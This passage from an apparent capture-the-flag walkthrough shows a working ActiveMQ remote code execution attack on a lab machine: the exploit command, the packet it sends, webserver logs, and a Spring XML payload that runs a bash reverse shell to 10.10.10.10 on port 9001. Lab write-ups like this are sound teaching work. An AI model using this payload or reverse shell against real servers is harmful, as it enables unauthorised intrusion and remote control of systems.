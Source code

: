### Run POC

To run the POC, I can start with a Python webserver and run the Python
script:



    oxdf@hacky$ python exploit.py -i 10.10.11.243 -u http://10.10.14.6/test.xml
         _        _   _           __  __  ___        ____   ____ _____ 
        / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
       / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
      / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
     /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

    [*] Target: 10.10.11.243:61616
    [*] XML URL: http://10.10.14.6/poc.xml

    [*] Sending packet: 0000006c1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010019687474703a2f2f31302e31302e31342e362f706f632e786d6c



There is a hit at my websertver (twice actually):



    10.10.11.243 - - [08/Nov/2023 13:33:53] code 404, message File not found
    10.10.11.243 - - [08/Nov/2023 13:33:53] "GET /test.xml HTTP/1.1" 404 -
    10.10.11.243 - - [08/Nov/2023 13:34:26] code 404, message File not found
    10.10.11.243 - - [08/Nov/2023 13:34:26] "GET /test.xml HTTP/1.1" 404 -



So I need to look at this XML file. The exploit comes with `poc.xml`:



    <?xml version="1.0" encoding="UTF-8" ?>
        <beans xmlns="http://www.springframework.org/schema/beans"
           xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
           xsi:schemaLocation="
         http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
            <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
                <constructor-arg>
                <list>
                    <value>bash</value>
                    <value>-c</value>
                    <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
                </list>
                </constructor-arg>
            </bean>
        </beans>



It's clearly calling a classic [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw),
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001'`. I'll update the
payload to my IP address and host it with the Python webserver.
